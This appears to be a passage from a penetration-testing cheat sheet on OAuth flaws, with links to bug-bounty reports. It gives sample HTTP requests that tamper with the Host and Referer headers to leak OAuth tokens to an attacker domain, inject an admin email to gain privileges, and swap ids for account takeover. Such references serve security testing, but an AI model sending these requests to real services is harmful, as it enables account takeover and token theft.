 * [https://hackerone.com/reports/101977](https://hackerone.com/reports/101977)
* [https://hackerone.com/reports/314808](https://hackerone.com/reports/314808)

### Change The Host Header

```http
GET /oauth/Connect HTTP/1.1
Host: me.com/www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Origin: https://www.company.com
```

{% embed url="https://hackerone.com/reports/317476" %}

### Insert Your Domain In Referer Header While

```http
GET /oauth/Connect HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Referer: https://me.com/path
Origin: https://www.company.com
```

* [https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/](https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/)
* [https://security.lauritz-holtmann.de/advisories/tiktok-account-takeover/](https://security.lauritz-holtmann.de/advisories/tiktok-account-takeover/)
* [https://hackerone.com/reports/202781](https://hackerone.com/reports/202781)

### Insert admin@comapny.com in scope

In OAuth Connect Request , Try To Insert admin@company.com as Value Of Email In Scope Parameter To Gain Extra Authorities OR Get More Functionalities

```http
POST /oauth/Connect HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: Number
firstname=I&lastname=am&image=URL&anti_csrf=CSRF
&email=admin@company.com&access_token=******
```

{% embed url="https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/" %}

### IDOR in `id=`  Parameter

> In OAuth Connect Request , Try To Recall Id In Scope Then Try To Change This Id To Id Of Logged In Account To Takeover This Account
